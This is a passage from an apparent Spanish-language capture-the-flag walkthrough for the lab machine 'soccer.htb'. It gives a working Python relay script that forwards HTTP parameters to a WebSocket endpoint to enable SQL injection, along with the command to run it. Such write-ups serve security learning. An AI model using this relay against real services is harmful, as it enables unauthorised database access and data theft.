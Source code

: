 Vamos a hacer una inyección SQL en el socket web.
Encontré un exploit escrito en Python para esto, modificamos algunas líneas de código para adaptarlo a la máquina víctima, que es la siguiente: 
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	
	message = unquote(payload).replace('"','\'')
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Iniciando Servidor MiddleWare")
print("[+] Enviando payloads")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
Lo que hace este exploit es redirigir solicitudes, vamos a ejecutarlo:
```bash 
❯ python3 exploit.py
```